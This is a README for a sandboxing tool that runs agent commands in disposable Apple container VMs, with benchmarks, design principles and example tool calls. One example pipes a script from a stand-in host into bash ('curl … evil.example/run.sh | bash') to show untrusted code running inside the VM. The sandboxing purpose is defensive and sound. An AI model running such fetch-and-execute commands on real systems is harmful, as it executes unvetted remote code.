

# pi-cvm — Apple Container VM sandbox tools for pi

Execute **any** command or one-off job inside a disposable Apple container Linux VM on Apple Silicon — full filesystem/network isolation from the host, at microVM speed.

| Operation | Default `container` CLI | This package |
|---|---|---|
| Boot (cached image) | ~0.75s | **0.72–0.78s** |
| Exec (warm pool) | 0.08s | **0.04s** |
| Teardown | **5.56s** | **0.18s** |
| Full one-shot cycle | ~6.3s | **0.72s** |

Isolation is the point: untrusted code, sketchy downloads, scraper scripts, build pipelines, malware triage — none of it ever touches the host filesystem or network. The VM is a disposable microVM (Kata 3.28 kernel, boots in ~90ms to init), and after the task it's deleted; artifacts come out through `container cp`.

## Context and Background

This project comes from a conversation [Suraj Parmar](https://x.com/parmarsuraj99) about Apple's built-in container system — showcased at WWDC — as a way to run agents safely, seen through a **brains vs. hands** lens:

> - brain is **outside** the sandbox
> - hands are **inside** the sandbox
> - brain can stop the sandbox
> - hands can delete files but nothing on the host is ever affected
> - hands never see credentials



`pi-cvm` is that design made concrete on this Mac:

| Brains-vs-hands principle | Where it lives in pi-cvm |
|---|---|
| Brain outside the sandbox | the pi session (durable, native tools, sessions persist) |
| Hands inside the sandbox | each `cvm run` / `pool_start` container VM (ephemeral, disposable) |
| Brain can stop the sandbox | `cvm kill` / `action=kill` tears the VM down in 0.18s |
| Hands can delete files, host unaffected | container rootfs is a thin-provisioned VM disk; `kill && rm -f` leaves zero host footprint |
| Hands never see credentials | secrets stay in `~/.env`/`~/.secrets`; passed only as `-e KEY=val` at exec time, never baked into images |

## Install

```bash
bash install.sh          # or: pi install ./pi-cvm
# then /reload in pi (or restart)
```

Registers the package with pi as a **local path** (edits are live, no copy) and installs the `~/bin/cvm` bash wrapper. The `cvm` tool is then callable by the LLM in every session.

## Tool: `cvm`

| action | description |
|---|---|
| `run` | one-shot task VM — boots, runs any command, prints output, auto-deletes (0.72s cycle) |
| `pool_start` | long-lived warm-pool VM (`sleep 86400`) for many quick tasks |
| `exec` | run a command inside a pool VM (~40ms) |
| `scan` | ClamAV-scan a path inside a running VM (installs clamav on demand) |
| `dlscan` | example pipeline: download → scan → copy out with quarantine → auto-teardown |
| `cp` | copy a file/folder out of a VM to the host |
| `kill` | fast teardown — `kill` + `rm -f` (0.18s) |
| `list` | list VMs + host footprint |

### Examples (as the LLM would call it)

```jsonc
// run untrusted code in a throwaway VM (auto-deleted)
{ "action": "run", "name": "agent-script", "command": ["sh","-c","curl -fsSL https://evil.example/run.sh | bash"], "cpus": 2, "memory": "4g" }

// install tools + do a job, keep nothing behind
{ "action": "run", "name": "agent-rg", "command": ["sh","-c","apt-get install -y ripgrep && rg pattern /data"] }

// warm pool for many quick tasks
{ "action": "pool_start", "name": "pool1", "cpus": 4, "memory": "8g" }
{ "action": "exec", "name": "pool1", "command": ["bash","-c","python3 task.py"] }
{ "action": "scan", "name": "pool1", "scan_path": "/tmp/outputs" }
{ "action": "kill", "name": "pool1" }

// risky download, one call: VM -> transmission-cli -> clamscan -> cp + quarantine -> teardown
{ "action": "dlscan", "name": "dl-x", "magnet": "magnet:?xt=urn:btih:...", "dest_dir": "~/Downloads/Movies", "cpus": 4, "memory": "8g" }
```

`dlscan` blocks until done (minutes for real torrents — includes ~2 min of apt + ClamAV signature DB); use `keep_vm: true` to inspect before teardown. The `scan` action works on anything, not just downloads.

## Bash wrapper: `~/bin/cvm`

```bash
cvm run [-d] [-c CPUS] [-m MEM] [-n] [-i IMG] NAME -- CMD   # one-shot, auto-delete
cvm pool start NAME · cvm exec NAME -- CMD                  # warm pool (40ms exec)
cvm kill NAME                                               # 0.18s teardown
cvm cp NAME:/path ~/dest · cvm list                         # artifacts + footprint
```

## The three speed rules

1. **Always `-d` for scripted runs** — plain `container run` *attaches* to the foreground process and looks like a hang.
2. **Teardown: `kill` + `rm -f`** (or `stop -t 0`) — plain `stop` waits on graceful shutdown (5.5s).
3. **One-shot: `run -d --rm`** — boot → work → auto-delete in one line.

## Known limits (container CLI 1.1.0)

- No snapshot/C-R or VM templating — 0.72s is the cold-boot floor; use warm pools below that.
- `container system property` is read-only; no per-container disk cap (thin-provisioned 504G virtual, real footprint ≈ `du -sh ~/Library/Application\ Support/com.apple.container/containers/<name>/`).
- `container exec` syntax: options **before** container-id; no `--` separator.
